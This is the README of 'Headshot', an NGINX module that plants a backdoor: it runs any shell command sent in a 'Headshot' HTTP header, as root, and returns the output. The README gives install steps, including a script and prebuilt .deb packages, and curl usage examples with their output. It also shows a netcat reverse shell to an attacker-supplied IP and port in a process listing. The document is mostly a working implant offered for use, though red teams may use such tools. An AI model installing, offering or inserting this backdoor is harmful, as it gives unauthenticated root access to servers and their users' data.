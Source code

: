 # Headshot
NGINX module to allow for RCE through a specific header. Also forces NGINX to run as root.


## Installation
There is a install script provided in the repo. It will pull down NGINX and compile it with the module. Then NGINX directory will be setup in `/usr/local/nginx` (NGINX default). After this the `NGX_HTTP_CONTENT_PHASE` is hooked and the module will be running in NGINX. In addition, the deb files provided can be used to install the exploited NGINX by running the following:

```
dpkg -i deb/*.deb
```
In the event of compiling from source [this webpage](https://www.nginx.com/resources/wiki/start/topics/tutorials/installoptions/) maybe helpfule for the configure portion of `install.sh`.


## Usage
To use the Headshot simply supply your command as a value to the `Headshot` HTTP header. The output (stdout or stderr) of your command will be the response body of the command run. If there is no stdout or stderr from the command, then the response body will obviously be empty and a helpful string is returned. An example or two is shown below.

```
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Headshot]# curl localhost --header "Headshot: touch /tmp/hello"
<-- no stderr/stdout from your command -->
[root@localhost Headshot]# curl localhost --header "Headshot: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
[root@localhost Headshot]# curl localhost --header "Headshot: not_a_command"
sh: 1: not_a_command: not found
```
If the header is not supplied then the server will respond to requests as normal. See below for example.
```
[root@localhost Headshot]# curl localhost
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```

For those curious, if one were to setup a reverse shell from this exploit and a blue team member ran `ps -fax` then they would see something like the following output while the shell was active.

```
 17622 ?        Ss     0:00  \_ nginx: master process /usr/local/nginx/sbin/nginx
 17623 ?        S      0:00      \_ nginx: worker process
 17719 ?        S      0:00          \_ sh -c nc -c /bin/bash {YOUR_IP} {YOUR_PORT} 2>&1
 17720 ?        S      0:00              \_ sh -c /bin/bash
 17721 ?        S      0:00                  \_ /bin/bash
```

## Resources
[The foremost resource on NGINX Modules](https://www.evanmiller.org/nginx-modules-guide.html)

[A basic hello world module](https://github.com/perusio/nginx-hello-world-module/)

[The NGINX Source begins to be helpful after you loose sanity](https://github.com/nginx/nginx/)

[The NGINX API Documentation also helps](https://www.nginx.com/resources/wiki/extending/api/utility/)

[Also not a bad small guide](http://www.nginxguts.com/2011/02/http-modules/)
[From the same source as above but goes over NGINX Phases](http://www.nginxguts.com/2011/01/phases/)

[This would be the guide to follow to dynamically link the module](https://www.nginx.com/blog/compiling-dynamic-modules-nginx-plus/)

[This is where I go the idea to hook the NGX_HTTP_CONTENT_PHASE to avoid directive use](http://www.nginx-discovery.com/2011/02/day-21-http-handler-vs-content-phase.html)
